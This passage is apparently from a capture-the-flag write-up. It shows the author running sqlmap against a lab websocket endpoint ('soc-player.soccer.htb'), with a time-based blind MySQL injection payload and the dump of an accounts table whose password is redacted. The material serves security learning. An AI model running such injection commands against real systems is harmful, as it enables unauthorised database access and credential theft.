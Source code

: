 ```bash
[19:25:45] [INFO] fetching tables for databases: 'information_schema, mysql, performance_schema, soccer_db, sys'
[19:25:45] [INFO] fetching number of tables for database 'soccer_db'
[19:25:45] [INFO] retrieved: 1
[19:25:48] [INFO] retrieved: accounts
...
```
And lastly, I asked it to dump the accounts table in the soccer database.

```bash
$ sqlmap -u "ws://soc-player.soccer.htb:9091" --data='{"id":"123*"}' -D soccer_db -T accounts --dump
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.7#stable}
|_ -| . [(]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:30:02 /2023-01-25/

custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q]
JSON data found in POST body. Do you want to process it? [Y/n/q]
[19:30:04] [INFO] resuming back-end DBMS 'mysql'
[19:30:04] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: JSON #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"id":"123 AND (SELECT 3483 FROM (SELECT(SLEEP(5)))LsCb)"}
---
...
[19:30:21] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
4
[19:30:21] [INFO] retrieved: id
[19:30:38] [INFO] retrieved: email
[19:30:56] [INFO] retrieved: username
[19:31:27] [INFO] retrieved: password
[19:32:02] [INFO] fetching entries for table 'accounts' in database 'soccer_db'
[19:32:02] [INFO] fetching number of entries for table 'accounts' in database 'soccer_db'
[19:32:02] [INFO] retrieved: 1
[19:32:04] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
player@player.htb
[19:33:22] [INFO] retrieved: 1324
[19:33:38] [INFO] retrieved: REDACTED
[19:34:58] [INFO] retrieved: player
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | REDACTED             | player   |
+------+-------------------+----------------------+----------+

[19:35:24] [INFO] table 'soccer_db.accounts' dumped to CSV file '/home/ehogue/.local/share/sqlmap/output/soc-player.soccer.htb/dump/soccer_db/accounts.csv'
```